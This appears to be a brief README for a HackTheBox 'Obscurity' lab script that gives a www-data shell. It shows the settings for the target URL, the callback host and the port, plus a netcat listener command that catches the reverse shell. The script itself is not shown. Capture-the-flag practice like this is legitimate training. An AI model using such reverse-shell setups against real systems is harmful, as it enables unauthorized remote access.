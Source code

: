 Obscurity HTB quick shell for www-data
=============
With you can easily gain access as www-data to the "obcurity" HTB box.  

Change the IP in the script:
``` 
url='http://10.10.10.168:8080/' 
lhost = '10.10.14.x' #change this
lport = '1234' 
``` 
And set up a listener with nc:
```
nc -lnvp 1234
```
There you go!
Happy hacking!
